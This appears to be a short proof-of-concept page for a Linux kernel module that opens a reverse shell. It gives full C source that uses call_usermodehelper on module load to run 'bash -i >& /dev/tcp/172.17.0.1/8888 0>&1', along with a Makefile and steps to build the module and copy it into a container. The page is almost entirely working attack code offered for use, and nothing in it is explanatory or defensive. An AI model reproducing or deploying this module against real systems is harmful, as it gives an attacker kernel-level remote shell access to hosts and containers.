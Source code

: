 #### PoC Reverse shell kernel module

Install linux headers:
```
sudo apt-get install -y build-essential linux-headers-$(uname -r)
```

Reverseshell_module.c:
```
#include <linux/init.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/kmod.h>

static char command[] = "bash -i >& /dev/tcp/172.17.0.1/8888 0>&1"; //Reverse shell change ip and port if needed

char *argv[] = {
    "/bin/bash",
    "-c",    // flag make command run from option list
    command, // Reverse shell
    NULL     // End of the list
};
static char *envp[] = {
    "HOME=/",
    NULL // End of the list
};

static int __init connect_back_init(void)
{

    return call_usermodehelper(
        argv[0],      // execution path
        argv,         // arguments for process
        envp,         // environment for process
        UMH_WAIT_EXEC // don't wait for program return status
    );
}

static void __exit connect_back_exit(void)
{
    printk(KERN_INFO "Exiting\n");
}

module_init(connect_back_init);
module_exit(connect_back_exit);
```

Makefile:
```
obj-m += reverseshell_module.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) modules

clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(shell pwd) clean
```
Required Steps:
- install linux headers
- create reverseshell_module.c
- change IP/Port as required
- create makefile
- build exploit with `make`
- copy reverseshell_module.ko to container
- make executable `chmod +x`